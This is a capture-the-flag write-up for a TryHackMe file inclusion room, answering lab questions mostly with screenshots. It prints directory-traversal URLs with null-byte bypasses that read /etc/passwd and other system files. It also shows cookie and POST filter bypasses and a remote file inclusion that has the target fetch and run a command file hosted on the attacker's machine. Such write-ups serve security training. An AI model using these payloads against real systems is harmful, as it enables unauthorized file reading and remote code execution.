 # File Inclusion

**Room Link:** [https://tryhackme.com/room/fileinc](https://tryhackme.com/room/fileinc)



**Give Lab #1 a try to read /etc/passwd. What would the request URI be?**

<figure><img src="../../.gitbook/assets/image (16) (5).png" alt=""><figcaption></figcaption></figure>

**In Lab #2, what is the directory specified in the include function?**

<figure><img src="../../.gitbook/assets/image (23) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Give Lab #3 a try to read /etc/passwd. What is the request look like?**

Input field didn't work but we were able to bypass by entering our command in the web browser instead.

**URL:** hxxp://10.10.230.14/lab3.php?file=..//..//../../../etc/passwd%00&#x20;

<figure><img src="../../.gitbook/assets/image (22) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Which function is causing the directory traversal in Lab #4?**

file\_get\_contents

<figure><img src="../../.gitbook/assets/image (34) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Try out Lab #6 and check what is the directory that has to be in the input field?**

THM-profile

<figure><img src="../../.gitbook/assets/image (49) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Try out Lab #6 and read /etc/os-release. What is the VERSION\_ID value**

Only worked in browser

hxxp://10.10.230.14/lab6.php?file=THM-profile//..//..//..//..//etc//os-release%00

<figure><img src="../../.gitbook/assets/image (14) (5) (1).png" alt=""><figcaption></figcaption></figure>

**Capture Flag1 at /etc/flag1**





<figure><img src="../../.gitbook/assets/image (12) (6).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (17) (3).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (47) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (3) (1).png" alt=""><figcaption></figcaption></figure>

**Capture Flag2 at /etc/flag2**

<figure><img src="../../.gitbook/assets/image (28) (3).png" alt=""><figcaption></figcaption></figure>

Change the value from Guest to Admin and we can bypass the error message above.

<figure><img src="../../.gitbook/assets/image (50) (1) (2).png" alt=""><figcaption></figcaption></figure>

Change the value to the flag and we can see it on the page.

<figure><img src="../../.gitbook/assets/image (31) (2) (1).png" alt=""><figcaption></figcaption></figure>

What it would look like in burp.

<figure><img src="../../.gitbook/assets/image (32) (2).png" alt=""><figcaption></figcaption></figure>

**Capture Flag3 at /etc/flag3**

Page is getting rid of our slashes

<figure><img src="../../.gitbook/assets/image (11) (7).png" alt=""><figcaption></figcaption></figure>

Changing to post and added extra slashed and null character at end.

<figure><img src="../../.gitbook/assets/image (30) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>



**Gain RCE in Lab #Playground /playground.php with RFI to execute the hostname command. What is the output?**

**Kali**

Created the following file to run the hostname command.

![](<../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1).png>)

**Kali**

Host the file

```
python2 -m SimpleHTTPServer 81
```

**Browser**

```
hxxp://10.10.230.14/playground.php?file=http://10.10.11.193:81/cmd.txt
```

<figure><img src="../../.gitbook/assets/image (10) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>
